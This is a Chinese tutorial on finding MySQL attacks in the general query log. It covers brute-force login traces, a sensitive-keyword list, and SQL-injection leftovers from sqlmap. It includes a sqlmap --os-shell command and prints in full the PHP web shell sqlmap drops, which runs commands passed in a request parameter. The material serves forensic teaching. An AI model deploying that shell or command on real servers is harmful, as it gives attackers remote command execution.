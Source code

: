 ## MySQL日志分析

常见的数据库攻击包括弱口令、SQL注入、提升权限、窃取备份等。对数据库日志进行分析，可以发现攻击行为，进一步还原攻击场景及追溯攻击源。

### 0x01 Mysql日志分析

general query log能记录成功连接和每次执行的查询，我们可以将它用作安全布防的一部分，为故障分析或黑客事件后的调查提供依据。

~~~
1、查看log配置信息
show variables like '%general%';
2、开启日志
SET GLOBAL general_log = 'On';
3、指定日志文件路径
#SET GLOBAL general_log_file = '/var/lib/mysql/mysql.log';
~~~

比如，当我访问 /test.php?id=1，此时我们得到这样的日志：

~~~
190604 14:46:14       14 Connect    root@localhost on 
           14 Init DB    test
           14 Query    SELECT * FROM admin WHERE id = 1
           14 Quit  `
~~~
我们按列来解析一下：
~~~
第一列:Time，时间列，前面一个是日期,后面一个是小时和分钟，有一些不显示的原因是因为这些sql语句几乎是同时执行的,所以就不另外记录时间了。
第二列:Id，就是show processlist出来的第一列的线程ID,对于长连接和一些比较耗时的sql语句,你可以精确找出究竟是那一条那一个线程在运行。
第三列:Command，操作类型，比如Connect就是连接数据库，Query就是查询数据库(增删查改都显示为查询)，可以特定过虑一些操作。
第四列:Argument，详细信息，例如 Connect    root@localhost on 意思就是连接数据库，如此类推,接下面的连上数据库之后,做了什么查询的操作。
~~~

### 0x02 登录成功/失败

我们来做个简单的测试吧，使用我以前自己开发的弱口令工具来扫一下，字典设置比较小，2个用户，4个密码，共8组。

![](images/log-5-1.png)

MySQL中的log记录是这样子：

~~~
Time                 Id        Command         Argument

190601 22:03:20	   98 Connect	root@192.168.204.1 on 
		   98 Connect	Access denied for user 'root'@'192.168.204.1' (using password: YES)
		  103 Connect	mysql@192.168.204.1 on 
		  103 Connect	Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
		  104 Connect	mysql@192.168.204.1 on 
		  104 Connect	Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
		  100 Connect	root@192.168.204.1 on 
		  101 Connect	root@192.168.204.1 on 
		  101 Connect	Access denied for user 'root'@'192.168.204.1' (using password: YES)
		   99 Connect	root@192.168.204.1 on 
		   99 Connect	Access denied for user 'root'@'192.168.204.1' (using password: YES)
		  105 Connect	mysql@192.168.204.1 on 
		  105 Connect	Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
		  100 Query	set autocommit=0
		  102 Connect	mysql@192.168.204.1 on 
		  102 Connect	Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
		  100 Quit	`
~~~

你知道在这个口令猜解过程中，哪个是成功的吗？

利用爆破工具，一个口令猜解成功的记录是这样子的：

~~~
190601 22:03:20     100 Connect	root@192.168.204.1 on 
	   100 Query	set autocommit=0
	   100 Quit
~~~

但是，如果你是用其他方式，可能会有一点点不一样的哦。

Navicat for MySQL登录：

~~~
190601 22:14:07	  106 Connect	root@192.168.204.1 on 
		         106 Query	SET NAMES utf8
		         106 Query	SHOW VARIABLES LIKE 'lower_case_%'
		         106 Query	SHOW VARIABLES LIKE 'profiling'
		         106 Query	SHOW DATABASES
~~~

命令行登录：

~~~
190601 22:17:25	  111 Connect	root@localhost on 
		         111 Query	select @@version_comment limit 1
190601 22:17:56	  111 Quit
~~~

这个差别在于，不同的数据库连接工具，它在连接数据库初始化的过程中是不同的。通过这样的差别，我们可以简单判断出用户是通过连接数据库的方式。

另外，不管你是爆破工具、Navicat for MySQL、还是命令行，登录失败都是一样的记录。

登录失败的记录：

~~~
102 Connect	mysql@192.168.204.1 on 
102 Connect	Access denied for user 'mysql'@'192.168.204.1' (using password: YES)
~~~

利用shell命令进行简单的分析：

~~~
#有哪些IP在爆破？
grep  "Access denied" mysql.log |cut -d "'" -f4|uniq -c|sort -nr
     27 192.168.204.1

#爆破用户名字典都有哪些？
grep  "Access denied" mysql.log |cut -d "'" -f2|uniq -c|sort -nr
     13 mysql
     12 root
      1 root
      1 mysql

~~~

在日志分析中，特别需要注意一些敏感的操作行为，比如删表、备库，读写文件等。关键词：drop table、drop function、lock tables、unlock tables、load_file() 、into outfile、into dumpfile。

敏感数据库表：SELECT * from mysql.user、SELECT * from mysql.func

### 0x03  SQL注入入侵痕迹

在利用SQL注入漏洞的过程中，我们会尝试利用sqlmap的--os-shell参数取得shell，如操作不慎，可能留下一些sqlmap创建的临时表和自定义函数。我们先来看一下sqlmap os-shell参数的用法以及原理：

1、构造一个SQL注入点，开启Burp监听8080端口

`sqlmap.py  -u http://192.168.204.164/sql.php?id=1 --os-shell --proxy=http://127.0.0.1:8080`

HTTP通讯过程如下：

![](images/log-5-3.png)

创建了一个临时文件tmpbwyov.php，通过访问这个木马执行系统命令，并返回到页面展示。

tmpbwyov.php：

<?php $c=$_REQUEST["cmd"];@set_time_limit(0);@ignore_user_abort(1);@ini_set('max_execution_time',0);$z=@ini_get('disable_functions');if(!empty($z)){$z=preg_replace('/[, ]+/',',',$z);$z=explode(',',$z);$z=array_map('trim',$z);}else{$z=array();}$c=$c." 2>&1\n";function f($n){global $z;return is_callable($n)and!in_array($n,$z);}if(f('system')){ob_start();system($c);$w=ob_get_contents();ob_end_clean();}elseif(f('proc_open')){$y=proc_open($c,array(array(pipe,r),array(pipe,w),array(pipe,w)),$t);$w=NULL;while(!feof($t[1])){$w.=fread($t[1],512);}@proc_close($y);}elseif(f('shell_exec')){$w=shell_exec($c);}elseif(f('passthru')){ob_start();passthru($c);$w=ob_get_contents();ob_end_clean();}elseif(f('popen')){$x=popen($c,r);$w=NULL;if(is_resource($x)){while(!feof($x)){$w.=fread($x,512);}}@pclose($x);}elseif(f('exec')){$w=array();exec($c,$w);$w=join(chr(10),$w).chr(10);}else{$w=0;}print "<pre>".$w."</pre>";?>`

创建了一个临时表sqlmapoutput，调用存储过程执行系统命令将数据写入临时表，然后取临时表中的数据展示到前端。

通过查看网站目录中最近新建的可疑文件，可以判断是否发生过sql注入漏洞攻击事件。

检查方法：

1、检查网站目录下，是否存在一些木马文件：

![](images/log-5-4.png)

2、检查是否有UDF提权、MOF提权痕迹

检查目录是否有异常文件

mysql\lib\plugin 

c:/windows/system32/wbem/mof/

检查函数是否删除

`select * from mysql.func`

3、结合web日志分析。

